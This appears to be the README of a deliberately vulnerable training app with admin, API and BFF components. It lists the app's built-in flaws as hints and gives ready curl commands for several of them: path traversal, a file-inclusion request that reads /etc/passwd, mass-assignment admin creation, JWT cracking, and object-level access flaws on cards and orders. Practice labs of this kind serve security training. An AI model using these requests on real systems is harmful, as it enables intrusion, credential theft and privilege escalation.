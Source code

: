 # Getting Started

### Tips for admin app

- login page always will `Username or password is incorrect` return
- 403 - `curl http://localhost/admin/123/.%2e/data` (data, help, password endpoints)
- Path traversal - `curl http://localhost/admin/123/.%2e/users`
- Path traversal - `curl http://localhost/admin/123/.%2e/configuration`
- LFI - `curl http://localhost/admin/123/.%2e/configuration?file=/../../../../../../../etc/passwd`

### Tips for api app

* You can auth from admin app creds
* JWT token is crackable by jwt-tool and common list
* `CreateUserRequest` - give possibility to create a new admin with MassAssignment `curl -X POST -d '{"username": "test1", "password": "test", "admin": true}'`
* Added `/actuator` for future secondary context findings
* Possible to BOLA on cards `/cards` PUT request 
* Excessive Data Exposure on DELETE request `/cards`

### Tips for bff app

* IDOR on orders `localhost:8085/bff/orders/{orderId}`
* Path traversal for get all users from bff to api - `localhost:8085/bff/cards?cardId=../../../../system/all/users` or `localhost:8085/bff/cards?cardId=../../../../actuator`


## TODO
Test functionality (some methods fails)
Create some FrontEnd for bff.
Actuator on api should be closed under httpd.